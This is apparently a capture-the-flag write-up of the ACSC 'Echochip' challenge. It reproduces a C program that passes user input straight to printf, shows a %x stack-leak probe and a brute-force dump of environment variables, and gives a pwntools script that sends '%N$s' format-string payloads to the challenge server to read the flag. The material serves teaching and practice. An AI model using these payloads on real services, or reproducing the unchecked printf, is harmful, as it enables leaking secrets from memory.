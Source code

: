 ```yaml
---
author: Aryt3
pubDatetime: 2025-05-01T17:00:00Z
title: ACSC Echochip Writeup
slug: acsc-echochip
featured: true
draft: false
tags:
  - ACSC
  - pwn
description:
  A Writeup and Walkthrough of the ACSC Echochip challenge.
---
```



# Echochip

## Description
```
Soundboards are so 2076, get the new Kiroshi Echochip to add a cool echo, that will help establish your authority.
```

## Provided Files
```
- Echochip.zip
```

## Writeup

Starting off, I inspected the provided `c` program. <br/>
```c
// gcc Echochip.c -Wl,-z,relro,-z,now -Wall -o Echochip

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MIN(x, y) (x < y ? x : y)
char flag[0x100] = "dach2025{NOT_THE_FLAG}";

void setup(void) {
  char *flag_env = getenv("FLAG");
  if (flag_env == NULL)
    return;

  strncpy(flag, flag_env, sizeof(flag) - 1);
}

int main(int argc, char *argv[]) {
  char echo[0x200] = {0};
  char input[0x100] = {0};
  char *input_start, *echo_start;
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setup();
  printf("Please input the message to echo: \n");
  fgets(input, sizeof(input), stdin);

  input_start = input;
  echo_start = echo;
  for (int i = 0; i < sizeof(input) && input[i] != 0; ++i) {
    if (input[i] == ' ' || input[i] == '\n') {
      int echo_len = MIN(3, &input[i] - input_start);
      memcpy(echo_start, input_start, &input[i] - input_start);
      echo_start += &input[i] - input_start;
      memcpy(echo_start, &input[i - echo_len], echo_len + 1);
      echo_start += echo_len + 1;
      input_start = &input[i + 1];
    }
  }

  printf(echo);
}
```

The thing that instantly caught my eye was the `printf` function which actually takes our direct input without any checks. <br/>
Knowing this, we can try for a `string formatting vulnerability`. <br/>
```sh
$ ./share/Echochip 
Please input the message to echo: 
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
a78252e.e1ae3080.a78252e.0.0.e1ae34b8.28.0.27.e1ae30a7.e1ae31aa.252e7825.2e78252e.78252e78
```

As we can I see in the output, we are leaking data from the stack. <br/>
The thing that interests me the most is that the flag is being read from an `env-var`. <br/>
`char *flag_env = getenv("FLAG");` this indicates that the string should be loaded into memory at some point. <br/>

Knowing this, we can actually check for strings by leaking the stack `position by position` using a `string-formatter`. <br/>
```sh
$ python3 bruteforce.py
-----
147  
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin7$s

148  
HOSTNAME=a8415c1597e18$s

149  
FLAG=dach2025{NOT_THE_FLAG}9$s

150  
HOME=/home/ctf0$s

151  
SOCAT_PID=19811$s

152  
SOCAT_PPID=12$s

153  
SOCAT_VERSION=1.7.4.13$s

154  
SOCAT_SOCKADDR=172.19.0.24$s

155  
SOCAT_SOCKPORT=50005$s

156  
SOCAT_PEERADDR=172.19.0.16$s

157  
SOCAT_PEERPORT=562547$s
-----
``` 

There we can see all `environment-variables` as well as the `test-flag`. <br/>
These are loaded into the memory of the binary and that's the reason we can leak them. <br/>
With all this information we can now exploit it on the server and get the actual flag. <br/>

```py
from pwn import *

context.log_level = 'error'

for i in range(145,160):
    payload = f"%{i}$s".encode()

    p = remote('port.dyn.acsc.land', 34241)
    p.sendlineafter(b'Please input the message to echo:', payload)

    res = p.recvall().decode('latin-1')

    if 'dach' in res:
        print(res)

    p.close()
```

Executing the script reveals the flag which concludes this writeup. <br/>
```sh
$ python3 offset.py 
[*] '/home/aryt3/Hacking/CTFs/acsc_qualy_2025/Echochip/share/Echochip'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
  
FLAG=dach2025{d0es_th1s_m4ke_my_v01ce_s0und_deep3r_rimycu6vrt3m0nne}2$s